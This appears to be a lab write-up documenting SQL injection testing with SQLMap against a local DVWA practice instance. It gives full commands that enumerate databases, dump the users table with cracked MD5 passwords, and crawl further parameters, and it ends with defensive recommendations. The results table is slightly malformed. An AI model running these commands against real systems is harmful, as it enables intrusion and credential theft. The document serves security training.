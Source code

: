 # SQLMap Penetration Testing Documentation

## Overview

This document contains details about the SQL injection testing performed on the target application, steps taken, commands executed, and results obtained.

## Prerequisites

- **Target**: http://192.168.1.7/dvwa
- **Tools Used**: SQLMap
- **Setup**:
  - DVWA running on a local environment.
  - Security level set to `low`.

## Step 1: Identify Vulnerabilities

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        --dbs
```

### Results:

- Identified injectable parameter: `id`.
- Databases discovered:
  - `dvwa`
  - `information_schema`

---

## Step 2: Select Target Database

### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        -D dvwa        --tables
```

### Results:

- Tables in `dvwa` database:
  - `guestbook`
  - `users`

---

## Step 3: Dump Table Data

### Dumping `users` Table

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        -D dvwa        -T users        --columns
```

#### Results:

- Columns in `users` table:
  - `user_id`
  - `first_name`
  - `last_name`
  - `user`
  - `password`

---

### Dumping User Credentials

#### Command:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        -p id        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        -D dvwa        -T users        --dump
```

#### Results:

- Extracted Data:
   | user_id |  user  |            password                          ||first_name | |first_name|
  |---------|-------------|-----------------------------------------||-----------| |----------|
  | 1       | admin  | 21232f297a57a5a743894a0e4a801fc3 (admin)     ||   admin   | | admin    |
  | 2       | guest  | e99a18c428cb38d5f260853678922e03 (abc123)    ||   Brown   | | Gordon   |
  | 3       | 1337   | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)   ||   Me      | | Hack     |
  | 4       | pablo  | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)   ||   Picasso | | Pablo    |
  | 5       | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  ||   Smith   | | Bob      |
  | 6       | user   | ee11cbb19052e40b07aac0ca060c23ee (user)      ||   user    | | user     |

---

## Step 4: Test Other Parameters

#### Testing All Parameters:

```bash
sqlmap -u "http://192.168.1.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"        --cookie "security=low; PHPSESSID=qhhbnclv8g0ummo85hrsjdr582; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada"        --crawl=3        --batch
```

### Results:

- Additional vulnerabilities found in `guestbook` table:
  - Columns dumped successfully.

---

## Recommendations

1. Implement input validation to prevent SQL injection.
2. Use parameterized queries or prepared statements.
3. Restrict database user privileges.
4. Regularly update and patch web applications and database management systems.
5. Utilize a Web Application Firewall (WAF) to detect and block SQL injection attempts.

